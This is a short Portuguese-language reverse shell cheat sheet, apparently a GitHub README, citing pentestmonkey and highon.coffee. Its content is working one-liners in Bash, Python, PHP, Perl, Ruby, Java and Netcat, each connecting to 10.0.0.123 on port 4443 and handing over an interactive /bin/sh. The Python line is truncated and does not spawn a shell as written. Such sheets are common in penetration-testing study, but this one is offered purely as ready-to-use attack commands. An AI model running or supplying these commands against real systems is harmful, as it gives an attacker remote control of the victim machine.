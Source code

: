 # Reverse Shell Cheat Sheet

Os exemplos abaixo são para sistemas Linux, mas alguns podem ser testados em sistemas Windows alterando  “/bin/sh -i” por “cmd.exe”.

## Bash

Algumas versões do bash podem executar um  reverse shell (Ex: Ubuntu 10.10):

`bash -i >& /dev/tcp/10.0.0.123/4443 0>&1`

## Python 2.7

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.123",4443))`

## PHP
Esta linha de comando utiliza “TCP connection file descriptor 3”. Caso não funcione , tente 4, 5, 6…

`php -r '$sock=fsockopen("10.0.0.123",4443);exec("/bin/sh -i <&3 >&3 2>&3");'`

## PERL

`perl -e 'use Socket;$i="10.0.0.123";$p=4443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

## Ruby

`ruby -rsocket -e'f=TCPSocket.open("10.0.0.123",4443).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

## Java

`r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.123/4443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()`

## Netcat

`nc -e /bin/sh 10.0.0.123 4443`

## Fonte:

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

https://highon.coffee/blog/reverse-shell-cheat-sheet

https://github.com/pentestmonkey/php-reverse-shell
